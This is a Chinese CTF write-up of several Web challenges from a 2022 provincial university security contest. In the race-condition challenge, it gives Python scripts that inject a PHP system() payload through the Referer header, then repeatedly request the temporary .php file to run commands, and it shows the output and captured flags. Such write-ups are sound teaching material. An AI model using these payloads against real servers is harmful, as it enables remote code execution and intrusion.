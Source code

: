 ```yaml
---
title: 第五届浙江省大学生网络与信息安全竞赛-技能挑战赛Web Writeup
date: 2022-09-17 22:46:00
updated: 2022-09-17 22:46:00
tags: [ctf,security]
description: 记录省赛预赛两道没做出的Web题
category: CTF
---
```


## 买买买01
条件竞争，当时没思考清楚的问题是，我知道通过条件竞争可以短时间的在系统上有一个.txt.php文件，但是没想明白怎么去让这个php文件被解析，因为file_get_contents这个函数只能读取文件内容但是却不会解析。其实只要直接访问就行。。。。

多线程也行，同时运行俩python文件也行。

```python
import requests
while 1:
    response = requests.get(
        "http://1.14.97.218:21715/e7a1b1b1e092b53be5fa11394bbed8fb/e7a1b1b1e092b53be5fa11394bbed8fb.txt2.php")
    if response.status_code != 404:
        print(response.text)
```

```python
import requests
while 1:
    # res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('ls /');?>"})
    res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('cat /fla444444444444g');?>"})
    # print(res.text)

```

```python
competebin
boot
dev
etc
fla444444444444g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```
competeDASCTF{43378609768205435621416258245141}
```

## nisc_easyweb
这个电脑没装扫描器省赛又不让上网。。。。所以根本就没发现/robots.txt

纯傻逼题目。。。

```python
http://1.14.97.218:27359/test_api.php?i=FlagInHere

DASCTF{84772015113998304475018439433695}
```

## js小游戏
f12一看index.js,base64解码就行

## 学生管理系统
注册账号就有Flag,可能是非预期吧

感觉预赛的时候有点手忙脚乱，继续沉淀。
